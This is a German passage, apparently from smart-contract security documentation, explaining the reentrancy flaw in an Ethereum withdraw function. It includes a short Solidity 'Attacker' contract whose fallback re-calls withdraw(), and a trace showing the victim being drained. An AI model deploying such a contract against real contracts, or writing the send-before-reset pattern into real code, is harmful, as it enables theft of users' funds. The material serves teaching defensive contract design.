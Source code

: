 ```solidity
    }
}
```

Um es einem Benutzer zu ermöglichen, ETH auszuzahlen, sind folgende Funktionen im Smart Contract gespeichert:

1. Lesen, wie viel Guthaben ein Benutzer hat
2. Dem Nutzer diesen Betrag in ETH senden
3. Das Guthaben auf 0 zurücksetzen, so dass das Guthaben des Nutzers nicht doppelt ausgezahlt werden kann

Bei einem Aufruf von einem regulären Konto (z. B. Ihrem eigenen MetaMask-Konto) funktioniert dies wie erwartet: msg.sender.call.value() sendet Ihrem Konto einfach ETH. Allerdings können Smart Contracts auch Aufrufe tätigen. Wenn ein benutzerdefinierter bösartiger Vertrag die Funktion `withdraw()` aufruft, sendet msg.sender.call.value() nicht nur `amount` von ETH, sondern ruft auch implizit den Vertrag auf, um mit der Codeausführung zu beginnen. Stellen Sie sich diesen böswilligen Vertrag vor:

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Der Aufruf von Attacker.beginAttack() startet einen Zyklus, der ähnlich aussieht:

```
0.) EOA-Aufrufe des Attacker.beginAttack() mit 1 ETH
0.) Attacker.beginAttack() hinterlegt 1 ETH in Opferaccount

  1.) Angreifer -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Opfer sendet ETH an den Angreifer (welcher die Standardfunktion ausführt)
    2.) Angreifer -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Opfer sendet ETH an den Angreifer (welcher die Standardfunktion ausführt)
    3.) Angreifer -> Victim.withdraw()
    3.) Victim reads balances[msg.sender]
      3.) Opfer sendet ETH an den Angreifer (welcher die Standardfunktion ausführt)
    4.) Angreifer hat nicht mehr genug Gas, kehrt zurück ohne erneut aufzurufen
      3. saldo[msg.sender] = 0;
    2. Salden[msg.sender] = 0; (es war bereits 0)
  1.) Salden[msg.sender] = 0; (es war bereits 0)
```
